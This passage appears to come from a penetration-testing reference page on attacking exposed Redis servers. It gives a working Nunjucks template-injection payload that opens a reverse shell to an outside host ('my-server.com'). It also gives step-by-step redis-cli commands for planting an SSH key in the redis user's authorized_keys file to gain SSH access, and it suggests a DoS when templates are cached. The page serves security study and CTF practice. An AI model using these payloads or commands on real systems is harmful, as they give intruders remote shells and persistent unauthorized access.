 ​If the webshell access exception, you can empty the database after backup and try again, remember to restore the database.

### Template Webshell

Like in the previous section you could also overwrite some html template file that is going to be interpreted by a template engine and obtain a shell.

For example, following [**this writeup**](https://www.neteye-blog.com/2022/05/cyber-apocalypse-ctf-2022-red-island-writeup/), you can see that the attacker injected a **rev shell in an html** interpreted by the **nunjucks template engine:**

```javascript
{{ ({}).constructor.constructor(
  "var net = global.process.mainModule.require('net'),
       cp = global.process.mainModule.require('child_process'),
       sh = cp.spawn('sh', []);
   var client = new net.Socket();
   client.connect(1234, 'my-server.com', function(){
      client.pipe(sh.stdin);
      sh.stdout.pipe(client);
      sh.stderr.pipe(client);
   });"
)()}}
```

{% hint style="warning" %}
Note that **several template engines cache** the templates in **memory**, so even if you overwrite them, the new one **won't be executed**. In this cases, either the developer left the automatic reload active or you need to do a DoS over the service (and expect that it will be relaunched automatically).
{% endhint %}

### SSH

Please be aware **`config get dir`** result can be changed after other manually exploit commands. Suggest to run it first right after login into Redis. In the output of **`config get dir`** you could find the **home** of the **redis user** (usually _/var/lib/redis_ or _/home/redis/.ssh_), and knowing this you know where you can write the `authenticated_users` file to access via ssh **with the user redis**. If you know the home of other valid user where you have writable permissions you can also abuse it:

1. Generate a ssh public-private key pair on your pc: **`ssh-keygen -t rsa`**
2. Write the public key to a file : **`(echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > spaced_key.txt`**
3. Import the file into redis : **`cat spaced_key.txt | redis-cli -h 10.85.0.52 -x set ssh_key`**
4.  Save the public key to the **authorized\_keys** file on redis server:

    ```
    root@Urahara:~# redis-cli -h 10.85.0.52
    10.85.0.52:6379> config set dir /var/lib/redis/.ssh
    OK
    10.85.0.52:6379> config set dbfilename "authorized_keys"
    OK
    10.85.0.52:6379> save
    OK
    ```
5. Finally, you can **ssh** to the **redis server** with private key : **ssh -i id\_rsa redis@10.85.0.52**
